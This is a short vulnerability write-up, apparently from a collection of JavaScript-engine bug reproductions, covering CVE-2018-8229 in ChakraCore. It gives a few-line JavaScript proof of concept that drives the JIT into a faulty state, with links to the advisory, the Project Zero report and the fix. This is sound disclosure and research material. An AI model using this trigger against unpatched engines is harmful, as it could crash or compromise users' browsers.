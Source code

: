 # CVE-2018-8229

- Fix: July 2018
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function opt(str) {
    for (let i = 0; i < 200; i++) {
        let tmp = str.charCodeAt('AAAAAAAAAA' + str + 'BBBBBBBBBB');
    }
}

opt('x');
opt(0x1234);
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2018-8229)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1560)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/9b270c55bfea2fbefc9482d3414c4b4b395cad10)
